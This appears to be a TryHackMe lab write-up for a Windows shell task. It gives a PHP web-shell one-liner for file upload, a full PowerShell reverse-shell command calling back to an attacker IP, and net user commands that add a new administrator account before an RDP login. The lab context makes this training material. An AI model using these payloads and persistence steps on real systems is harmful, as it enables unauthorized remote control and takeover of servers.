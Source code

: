 Now lets start the machine form the **TASK 15** and see what is has to offer to use..

**NOTE: As this is a THM task so there wont be any firewall blocking in real life scenarios it wont be this easy for sure!!**
# USING SIMPLE PHP SCRIPT

![image](https://github.com/Theincognitomode/What-the-shell/assets/73027020/47f2952e-a5fc-47e0-9c2c-2c2e9ec3453c)

The website look something like this..

Now lets create a simple PHP script and upload it on the website

    <?php echo "<pre>" .shell_exec($_GET["cmd"]). "</pre>"; ?>

Now lets visit the /upload/fname (in my case fname = revshell.php)
![image](https://github.com/Theincognitomode/What-the-shell/assets/73027020/b5b4ec5d-5990-4f52-ba61-ef9c7852f563)

Open the listern on any port that you desire..


Now lets look at this git repo: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell

From here we will be using the powershell one liner script in order to get a rev shell


    powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.17.61.124',4443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

Chnage the ip address and port accordingly..

Now convert this in url form and then modify the url 

    http://10.10.109.254/uploads/revshell.php?cmd=<whole script that has been converted into url using any url encoder>

![image](https://github.com/Theincognitomode/What-the-shell/assets/73027020/77dfb4b7-ebf0-4fe2-9459-cbdc35320d8d)

There we goo!! 

Now read the Questions of TASK 13 

**The webserver is running with SYSTEM privileges. Create a new user and add it to the "administrators" group, then login over RDP or WinRM.**

Lets do this simple commands:


        net user <uname> <password> /add

Now lets add the user in the administrator group:

        net localgrouup administrators <uname> /add

After completing this proccess lets try to access it using the xfreerdp the command for that will look like this:

        xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.109.254 /u:abc /p:'abc123'

![image](https://github.com/Theincognitomode/What-the-shell/assets/73027020/2ca970b9-bf12-4576-bb96-0317f8bba194)


Cool we are connected now!!
